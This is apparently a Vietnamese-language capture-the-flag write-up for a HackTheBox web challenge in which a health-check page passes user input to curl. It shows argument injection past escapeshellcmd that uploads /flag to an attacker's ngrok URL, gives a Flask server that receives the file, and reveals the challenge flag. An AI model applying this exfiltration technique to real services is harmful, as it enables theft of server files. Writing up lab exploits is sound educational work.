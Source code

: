 ![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/1.png)

bài này cũng không khó
ta thấy rằng web này cho ta dùng __curl trong linux__ để crawl đến web khác, hàm __escapeshellcmd($host)__  chặn quoutes.
![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/3.png)
![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/4.png)
<br />
nhưng  lệnh __curl__ trong linux có thể upload file đến một máy web khác bằng lệnh như sau __curl $url_attacker -X POST -F file=@@/file__ 
<br />
trong tệp __Dockerfile__ ta có thể thấy đường dẫn __/flag__
<br />
![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/Untitled.png)

đầu tiên, chạy web để bắt file được gửi về, có thể sử dụng đoạn mã python sau
```from flask import Flask, request

app = Flask(__name__)

@app.route('/upload', methods = [ 'POST'])
def upload_file():
    if request.method == 'POST':
      f = request.files['file']
      f.save(f.filename)
      return 'file uploaded successfully'

if __name__ == '__main__':
   app.run(host="0.0.0.0",port=8888)
   ``` 
   
sau đó nhập payload này:  ` http://2360-2001-ee0-4f0f-d3b0-910-70-84f3-2af0.ngrok.io/upload -X POST -F file=@/flag`
như vậy ta sẽ nhận tệp flag gửi về __HTB{curl_pwn4g3_3n_r0ut3!}__
<br /> dùng ngrok để tạo ra điểm truy cập cho chính máy của mình, ta sẽ có đoạn cái đường dẫn url này  ` http://2360-2001-ee0-4f0f-d3b0-910-70-84f3-2af0.ngrok.io `

[source của bài này](https://github.com/magnetohvcs/ctf/raw/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/web_health_check.zip)
